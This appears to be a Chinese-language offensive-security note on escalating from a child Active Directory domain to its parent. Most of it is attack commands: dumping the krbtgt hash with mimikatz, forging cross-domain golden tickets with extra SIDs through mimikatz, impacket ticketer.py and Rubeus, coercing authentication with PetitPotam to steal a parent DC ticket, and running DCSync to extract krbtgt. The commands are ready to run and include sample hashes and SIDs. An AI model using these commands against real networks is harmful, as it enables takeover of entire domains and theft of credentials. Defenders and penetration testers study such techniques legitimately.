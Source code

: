 
## 跨域

我们拿到了子域的域管权限。想要进一步拿下父域。但子域的域管并不是父域的域管。怎么办呢？

### 跨域金票

在子域控上导出krbtgt的hash，制作金票。也可以用信任密钥加密。其实这俩一样，只不过换了个hash加密而已。

```c#
lsadump::lsa /inject /name:krbtgt

kerberos::golden /domain:b.adc.com /user:TB /id:1104 /groups:513 /sid:S-1-5-21-380941772-2247100965-3625425370 /sids:S-1-5-21-3427068280-546657318-2538748504-519,S-1-5-9 /krbtgt:8bd3cbe5d54eb2d1c9274d940c3d165a /ptt 

kerberos::golden /user:administrator /id:500 /sid:S-1-5-21-3472340072-1697025292-3535703670 /sids:S-1-5-21-3427068280-546657318-2538748504-519,S-1-5-9,S-1-5-21-380941772-2247100965-3625425370-512,S-1-5-15 /krbtgt:922d9ee0c87f0aed5c72222ee1d47d0a /ptt /domain:a.adc.com

python3 ticketer.py -nthash 922d9ee0c87f0aed5c72222ee1d47d0a -user-id 1104 -groups 513 -domain a.adc.com -domain-sid S-1-5-21-3472340072-1697025292-3535703670 -extra-sid S-1-5-21-3427068280-546657318-2538748504-519,S-1-5-9 "TA"

Rubeus.exe asktgt /user:TB /domain:b.adc.com /aes256:e725be784d9e460e6dfc89074c5a246b8de5e54b11ab0fb2f3e9918d815383a6 /opsec /nowrap
Rubeus.exe asktgs /service:krbtgt/adc.com /domain:b.adc.com /dc:iis02.b.adc.com /ticket:
Rubeus.exe asktgs /service:cifs/DC01.adc.com /domain:adc.com /dc:DC01.adc.com /nowrap /ticket:
```

![image.png](assets/image-20220418091318-33s3mq6.png)


### 非约束委派

学非约束委派时就提到过。域控默认都是非约束委派的机器，通过RPC强制父域控返回身份认证，在子域控上哪到父域机器账户的TGT。

这里需要注意的是，这种手法同样适用于林信任，但在外部信任不可用。如果开启了sid筛选，也抓不到TGT

```lsadump::dcsync
python3 PetitPotam.py  dc04.cdc.com 10.10.10.10 -u administrator -p sss@123

Rubeus.exe monitor /interval:1 /nowrap
Rubeus.exe  ptt /ticket:....................

lsadump::dcsync /user:adc\krbtgt /domain:adc.com
```

![image.png](assets/image-20220418093512-krrug8f.png)

### 信任账户攻击

很好理解的攻击方式。一张图就可以解决。
